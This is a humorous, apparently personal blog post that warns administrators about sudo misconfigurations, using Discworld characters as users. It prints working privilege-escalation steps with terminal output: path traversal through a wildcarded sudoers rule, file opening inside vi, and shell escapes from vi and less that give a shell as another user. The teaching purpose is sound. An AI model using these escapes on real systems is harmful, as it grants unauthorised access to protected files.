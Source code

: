 ```yaml
---
layout: single
title: 2018-12-05 sudo-make-me-a-sandwich
modified:
categories: blog
date: 2018-12-05-T08:08:50-04:00
---
```

# sudo make me a sandwich, then I'll pwn your fridge

Sudo is a program for Unix-like computer operating systems that allows users to run programs with the security privileges of another user. 
[wikipedia-sudo](https://en.wikipedia.org/wiki/Sudo "wikipedia-sudo")

Let’s say that we have a folder named `/luggage/`. The luggage is carrying some incredibly valuable things. Rincewind and twoflower are two users who have been traveling with this luggage for sometime. Because, rincewind doesn't want twoflower to read the octavo, but is fine if he looks at the camera, both which are located in the in the luggage. `/luggage/camera/` `/luggage/octavo/` We have allowed twoflower to run only the cat command as rincewind, and only in the location `/luggage/camera/` folder. Because, we don’t know what the photos will be named we will wildcard all the filenames in `/luggage/camera/*`

Rincewind feels pretty good that twoflower will never be able to read anything in the octavo and certainly never be able to read the spell located in the folder and file permissions are both set with 0700. 
Below is the output of `/etc/sudoers.d/012-twoflower` file and a command output.
```
#/etc/sudoers.d/012-twoflower
twoflower discworld=(rincewind) /bin/cat /luggage/camera/*

root@discworld:/ $ ls -lA /luggage
total 8
drwxr-xr-x 2 twoflower twoflower 4096 Dec  5 02:37 camera
drwx------ 2 rincewind rincewind 4096 Dec  5 02:40 octavo

root@discworld:/luggage $ ls -la /luggage/octavo/
total 12
drwx------ 2 rincewind rincewind 4096 Dec  5 02:40 .
drwxrwxrwx 4 root      root      4096 Dec  5 02:37 ..
-rwx------ 1 rincewind rincewind   67 Dec  5 02:40 spell
```

We feel pretty good about this setup, it has only allowed twoflower a single command in a single path. Next we let twoflower have at it. And then something terrible happens.

```

$ twoflower@discworld:/luggage$ sudo -l
Matching Defaults entries for twoflower on discworld:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User twoflower may run the following commands on discworld:
    (rincewind) /bin/cat /luggage/camera/*
$ twoflower@discworld:/luggage$ sudo -u rincewind cat /luggage/octavo/spell
Sorry, user twoflower is not allowed to execute '/bin/cat /luggage/octavo/spell' as rincewind on discworld.

$ twoflower@discworld:/luggage$ sudo -u rincewind cat /luggage/camera/../octavo/spell
Ashonai. Ebiris. Urshoring. Kvanti. Pythan. N'gurad. Feringomalee.
twoflower@discworld:/luggage$
```
Twoflower has read the spell inside of the octavo and everything has ended. How? what? This is simply the way that the wildcard works with sudo. It’s just turtles, all the way down. We should never use wildcards like this in sudo, ever.

Next, lock it down, we will take away the cat command and replace it with just VI and then no arguments can be passed to VI, because if a wildcarded path is included then VI will fall to the same directory traversal issue.
 
```
root@discworld:~# cat /etc/sudoers.d/012_twoflower-nopasswd
twoflower discworld=(rincewind) /usr/bin/vi ""

twoflower@discworld:/luggage/camera$ sudo -u rincewind vi /luggage/camera/../octavo/spell
Sorry, user twoflower is not allowed to execute '/usr/bin/vi /luggage/camera/../octavo/spell' as rincewind on discworld.
## you shall not pass(arguments)!

twoflower@discworld:/luggage/camera$ sudo -u rincewind vi
<vim session opens>
~
:e ../octavo/spell<enter>
...
Ashonai. Ebiris. Urshoring. Kvanti. Pythan. N'gurad. Feringomalee.
## awe nuts you can open the file if you traverse directories after VI is open

## ...it gets worse
~<<still in vim>>
:!/bin/bash<enter>
<new shell session opens from vim>

rincewind@discworld:/luggage/camera$
rincewind@discworld:/luggage/camera$ cd ../octavo/
rincewind@discworld:/luggage/octavo$ cat spell
Ashonai. Ebiris. Urshoring. Kvanti. Pythan. N'gurad. Feringomalee.
rincewind@discworld:/luggage/octavo$
## world sets on fire :(
```

This is even worse because now, not only can twoflower still open read and edit the spell in the octavo, VIM has enabled a shell escape as the sudoer. This is because VIM is invoking the shell after the session is launched as the sudoer. Honey badger (VIM) don’t care what the sudoers.d/file said. 
Alright next step, take away VIM, give twoflower less and ONLY a single file in a single folder, because less has to be better.

```
root@discworld:~# cat /etc/sudoers.d/012_twoflower-nopasswd
twoflower discworld=(rincewind) /usr/bin/less /luggage/camera/picture


twoflower@discworld:/luggage/camera$ sudo -u rincewind less picture
Sorry, user twoflower is not allowed to execute '/usr/bin/less picture' as rincewind on discworld.
## got it i need the whole path

twoflower@discworld:/luggage/camera$ sudo -u rincewind less /luggage/camera/picture

<less session begins>
i see things
/luggage/camera/picture (END)
<type>:q<enter>
<quit less session>
## start the sudo less command and pass the picture file


## can i traverse?
twoflower@discworld:/luggage/camera$ sudo -u rincewind less /luggage/camera/../octavo/spell
Sorry, user twoflower is not allowed to execute '/usr/bin/less /luggage/camera/../octavo/spell' as rincewind on discworld.
## traverse failed
## but wait...
twoflower@discworld:/luggage/camera$ sudo -u rincewind less /luggage/camera/picture

<less session begins>
i see things
/luggage/camera/picture (END)
<type>!bash<enter>

<new bash session starts>
rincewind@discworld:/luggage/camera$ cat ../octavo/spell
Ashonai. Ebiris. Urshoring. Kvanti. Pythan. N'gurad. Feringomalee.
## gdi
## less has launched an escaped shell as rincewind and now we can read the spell (facepalm)
```

Sudo is a super powerful and incredibly dangerous tool. The commands that are allowed sudo access need to be thought out and the functionality needs to be understood. None of these examples are exploits, or overflows. They are all working exactly as designed. Understand the privileges that you are granting with sudo, otherwise someone will get into your fridge, eat all your food and then burn down your house.

Great source for deeper explanation of restricted shells and commands.
[escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells "escaping-restricted-linux-shells")


